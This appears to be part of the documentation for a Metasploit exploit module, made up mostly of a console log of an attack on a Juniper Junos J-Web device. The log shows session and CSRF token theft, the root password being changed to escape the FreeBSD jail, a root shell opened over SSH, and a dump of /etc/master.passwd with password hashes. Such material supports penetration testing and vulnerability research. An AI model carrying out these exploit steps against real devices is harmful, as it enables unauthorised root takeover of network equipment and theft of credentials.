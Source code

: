 ```


View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Environment variable manipulation succeeded indicating this target is vulnerable.
[*] Attempting to break out of FreeBSD jail by changing the root user's password, establishing an SSH session and then rewriting the original root user's password hash to /etc/master.passwd.
[!] This requires a user is authenticated to the J-Web application in order to steal a session token, also 'ssh root-login' is set to 'allow' on the device
[*] Found PHPSESSID: 90c641904f64e8378036ac32b8a6dfc860cf3256.
[*] Found csrf token: 6bd37a3776124d00f495f4306f0c8c91.
[*] Original encrypted root password: $6$bh9nWhr5sA0mjcZl$LURCntyXrzMfD1vaoawkahj5n86d9k4tTBzYs1zvSfVfDT1U8ricpkO7mDD2AjgciCXx.bNVEFcgk3wOs3YDb1
[*] Temporary root password Hash: $6$EHgi8RZTDSrDA2Zd$UTT5xh8F04TClznHUh6w8kZMeiN2icS7HZo1Eef03epX.vDxmVi6h2kssx1O.qrbDucKtRt7h/IoFRjWvEQvU1
[*] Successfully changed the root user's password to gCg6b3NTs10qWjiRVSsjAv7n
[+] Logged in as root
[*] Found shell.
[*] Rewriting the original root password hash to /etc/master.passwd
[*] Command shell session 2 opened (192.168.140.78:49763 -> 192.168.140.91:22) at 2023-09-28 14:14:39 -0400

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator),10(field),31(guest),73(config)
uname -a
FreeBSD JUNOS JNPR-11.0-20200608.0016468_buil FreeBSD JNPR-11.0-20200608.0016468_builder_stable_11 #0 r356482+0016468ed6c(stable/11): Sun Jun  7 23:59:18 PDT 2020     builder@feyrith.juniper.net:/volume/build/junos/occam/llvm-5.0/sandbox-20200605/freebsd/stable_11/20200605.171711_builder_stable_11.0016468/obj/amd64/juniper/kernels/JNPR-AMD64-PRD/kernel  amd64
cat /etc/master.passwd
root:$6$bh9nWhr5sA0mjcZl$LURCntyXrzMfD1vaoawkahj5n86d9k4tTBzYs1zvSfVfDT1U8ricpkO7mDD2AjgciCXx.bNVEFcgk3wOs3YDb1:0:0:super-user:0:0:Charlie &:/root:/bin/csh
daemon:*:1:1::0:0:Owner of many system processes:/root:/sbin/nologin
operator:*:2:5:operator:0:0:System &:/:/sbin/nologin
tty:*:4:65533::0:0:Tty Sandbox:/:/sbin/nologin
kmem:*:5:65533::0:0:KMem Sandbox:/:/sbin/nologin
sshd:*:22:22::0:0:Secure Shell Daemon:/var/empty:/sbin/nologin
ext:*:39:39:super-user:0:0:External applications:/:/sbin/nologin
bind:*:53:53::0:0:Bind Sandbox:/:/sbin/nologin
uucp:*:66:66::0:0:UUCP pseudo-user:/var/spool/uucppublic:/sbin/nologin
nobody:*:65534:65534::0:0:Unprivileged user:/nonexistent:/sbin/nologin
admin:$6$Dj.crXwf$EyAmqaJz7f3.JldkbZk7eZuApofQ7zK/z/7Q5ntrD3cebxYc9/Y2FSoJcUIZSgYwKGGyd0nnfNSvaHzkz6BLL1:2000:20:j-super-user:0:0:Administrator:/var/home/admin:/usr/sbin/cli
```